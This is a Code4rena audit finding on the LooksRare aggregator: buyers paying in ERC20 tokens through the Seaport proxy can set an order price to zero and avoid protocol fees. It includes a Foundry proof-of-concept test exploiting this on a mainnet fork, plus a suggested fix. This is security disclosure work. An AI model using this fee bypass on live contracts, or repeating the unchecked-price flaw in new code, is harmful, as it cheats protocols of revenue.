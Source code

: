 ## Tags

- bug
- 2 (Med Risk)
- disagree with severity
- downgraded by judge
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- M-04

# [Users can avoid paying any fees when using ERC20EnabledLooksRareAggregator for Seaport](https://github.com/code-423n4/2022-11-looksrare-findings/issues/143) 

# Lines of code

https://github.com/code-423n4/2022-11-looksrare/blob/main/contracts/proxies/SeaportProxy.sol#L136-L164
https://github.com/code-423n4/2022-11-looksrare/blob/main/contracts/proxies/SeaportProxy.sol#L232-L252


# Vulnerability details

## Impact
The `order.price` in the parameter `tradeData` is not used as the actual token amount sent to the seaport market and also not checked if those are equal when using the `ERC20EnabledLooksRareAggregator` for `SeaportPorxy` with ERC20 tokens.

So users can set the order.price to ZERO to avoid paying any fees for ERC20 orders.

## Proof of Concept
Test file SeaportUSDCZeroPrice.t.sol, modified from test SeaportProxyERC721USDC.t.sol and annotate with `# diff`.
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import {IERC20} from "../../contracts/interfaces/IERC20.sol";
import {IERC721} from "../../contracts/interfaces/IERC721.sol";
import {OwnableTwoSteps} from "../../contracts/OwnableTwoSteps.sol";
import {SeaportProxy} from "../../contracts/proxies/SeaportProxy.sol";
import {ERC20EnabledLooksRareAggregator} from "../../contracts/ERC20EnabledLooksRareAggregator.sol";
import {LooksRareAggregator} from "../../contracts/LooksRareAggregator.sol";
import {IProxy} from "../../contracts/interfaces/IProxy.sol";
import {ILooksRareAggregator} from "../../contracts/interfaces/ILooksRareAggregator.sol";
import {BasicOrder, FeeData, TokenTransfer} from "../../contracts/libraries/OrderStructs.sol";
import {TestHelpers} from "./TestHelpers.sol";
import {TestParameters} from "./TestParameters.sol";
import {SeaportProxyTestHelpers} from "./SeaportProxyTestHelpers.sol";

/**
 * @notice SeaportProxy ERC721 USDC orders with fees tests
 */
contract SeaportUSDCZeroPrice is TestParameters, TestHelpers, SeaportProxyTestHelpers {
    LooksRareAggregator private aggregator;
    ERC20EnabledLooksRareAggregator private erc20EnabledAggregator;
    SeaportProxy private seaportProxy;

    function setUp() public {
        vm.createSelectFork(vm.rpcUrl("mainnet"), 15_491_323);

        aggregator = new LooksRareAggregator();
        erc20EnabledAggregator = new ERC20EnabledLooksRareAggregator(address(aggregator));
        seaportProxy = new SeaportProxy(SEAPORT, address(aggregator));
        aggregator.addFunction(address(seaportProxy), SeaportProxy.execute.selector);

        deal(USDC, _buyer, INITIAL_USDC_BALANCE);

        aggregator.approve(SEAPORT, USDC, type(uint256).max);
        aggregator.setFee(address(seaportProxy), 250, _protocolFeeRecipient);
        aggregator.setERC20EnabledLooksRareAggregator(address(erc20EnabledAggregator));
    }

    function testExecuteWithPriceZero() public asPrankedUser(_buyer) {
        bool isAtomic = true;
        ILooksRareAggregator.TradeData[] memory tradeData = _generateTradeData();
        uint256 totalPrice = 
        // diff
        // not pay the fee for order 0 , so cut 250 bp from total price
        (tradeData[0].orders[0].price * (10250 - 250)) /
        // diff end
            10000 +
            (tradeData[0].orders[1].price * 10250) /
            10000;
        IERC20(USDC).approve(address(erc20EnabledAggregator), totalPrice);
        // diff
        // set order 0 price to ZERO
        tradeData[0].orders[0].price = 0;
        // diff end

        TokenTransfer[] memory tokenTransfers = new TokenTransfer[](1);
        tokenTransfers[0].currency = USDC;
        tokenTransfers[0].amount = totalPrice;

        erc20EnabledAggregator.execute(tokenTransfers, tradeData, _buyer, isAtomic);

        assertEq(IERC721(BAYC).balanceOf(_buyer), 2);
        assertEq(IERC721(BAYC).ownerOf(9948), _buyer);
        assertEq(IERC721(BAYC).ownerOf(8350), _buyer);
        assertEq(IERC20(USDC).balanceOf(_buyer), INITIAL_USDC_BALANCE - totalPrice);
    }

    function _generateTradeData() private view returns (ILooksRareAggregator.TradeData[] memory) {
        BasicOrder memory orderOne = validBAYCId9948Order();
        BasicOrder memory orderTwo = validBAYCId8350Order();
        BasicOrder[] memory orders = new BasicOrder[](2);
        orders[0] = orderOne;
        orders[1] = orderTwo;

        bytes[] memory ordersExtraData = new bytes[](2);
        {
            bytes memory orderOneExtraData = validBAYCId9948OrderExtraData();
            bytes memory orderTwoExtraData = validBAYCId8350OrderExtraData();
            ordersExtraData[0] = orderOneExtraData;
            ordersExtraData[1] = orderTwoExtraData;
        }

        bytes memory extraData = validMultipleItemsSameCollectionExtraData();
        ILooksRareAggregator.TradeData[] memory tradeData = new ILooksRareAggregator.TradeData[](1);
        tradeData[0] = ILooksRareAggregator.TradeData({
            proxy: address(seaportProxy),
            selector: SeaportProxy.execute.selector,
            value: 0,
            maxFeeBp: 250,
            orders: orders,
            ordersExtraData: ordersExtraData,
            extraData: extraData
        });

        return tradeData;
    }
}

```
run test:
```
forge test --match-test testExecuteWithPriceZero -vvvvv
```

## Tools Used
foundry

## Recommended Mitigation Steps
Assert the order price is equal to the token amount of the seaport order when populating parameters.